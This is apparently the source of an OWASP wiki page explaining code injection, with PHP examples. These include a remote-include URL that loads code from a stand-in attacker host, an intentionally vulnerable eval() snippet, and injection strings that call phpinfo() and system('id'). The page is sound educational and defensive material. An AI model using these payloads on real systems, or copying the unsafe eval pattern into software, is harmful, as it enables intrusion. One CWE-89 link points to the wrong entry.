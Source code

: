 ```yaml
---

layout: col-sidebar
title: Code Injection
author: 
contributors: 
permalink: /attacks/Code_Injection
tags: attack, Code Injection
auto-migrated: 1

---
```


## Description

Code Injection is the general term for attack types which consist of
injecting code that is then interpreted/executed by the application.
This type of attack exploits poor handling of untrusted data. These
types of attacks are usually made possible due to a lack of proper
input/output data validation, for example:

  - allowed characters (standard regular expressions classes or custom)
  - data format
  - amount of expected data

Code Injection differs from [Command
Injection](Command_Injection "wikilink") in that an attacker is only
limited by the functionality of the injected language itself. If an
attacker is able to inject PHP code into an application and have it
executed, he is only limited by what PHP is capable of. Command
injection consists of leveraging existing code to execute commands,
usually within the context of a shell.

## Risk Factors

  - These types of vulnerabilities can range from very hard to find, to
    easy to find
  - If found, are usually moderately hard to exploit, depending of
    scenario
  - If successfully exploited, impact could cover loss of
    confidentiality, loss of integrity, loss of availability, and/or
    loss of accountability

## Examples

**Example 1**

If an application passes a parameter sent via a GET request to the PHP
include() function with no input validation, the attacker may try to
execute code other than what the developer had in mind.

The URL below passes a page name to the include() function.

<http://testsite.com/index.php?page=contact.php>

The file "evilcode.php" may contain, for example, the phpinfo() function
which is useful for gaining information about the configuration of the
environment in which the web service runs. An attacker can ask the
application to execute his PHP code using the following request:

<http://testsite.com/?page=http://evilsite.com/evilcode.php>

**Example 2**

When a developer uses the PHP eval() function and passes it untrusted
data that an attacker can modify, code injection could be possible.

The example below shows a dangerous way to use the eval() function:

    $myvar = "varname";
    $x = $_GET['arg'];
    eval("\$myvar = \$x;");

As there is no input validation, the code above is vulnerable to a Code
Injection attack.

For example:

    /index.php?arg=1; phpinfo()

While exploiting bugs like these, an attacker may want to execute system
commands. In this case, a code injection bug can also be used for
command injection, for example:

    /index.php?arg=1; system('id')

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:
    Internet_attacker](:Category:_Internet_attacker "wikilink")
  - [Internal_software_developer](Internal_software_developer "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Command Injection](Command_Injection "wikilink")
  - [SQL Injection](SQL_Injection "wikilink")
  - [LDAP injection](LDAP_injection "wikilink")
  - [SSI injection](Server-Side_Includes_%28SSI%29_Injection "wikilink")
  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category: Input Validation
    Vulnerability](:Category:_Input_Validation_Vulnerability "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [Input Validation](Input_Validation "wikilink")
  - [Output Validation](Output_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## References

  - [CWE-77: Command
    Injection](http://cwe.mitre.org/data/definitions/77.html)
  - [CWE-78: OS Command
    Injection](http://cwe.mitre.org/data/definitions/78.html)
  - [CWE-89: SQL
    Injection](http://cwe.mitre.org/data/definitions/77.html)

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[Category:Injection](Category:Injection "wikilink")
[Category:Attack](Category:Attack "wikilink") [Category:Injection
Attack](Category:Injection_Attack "wikilink")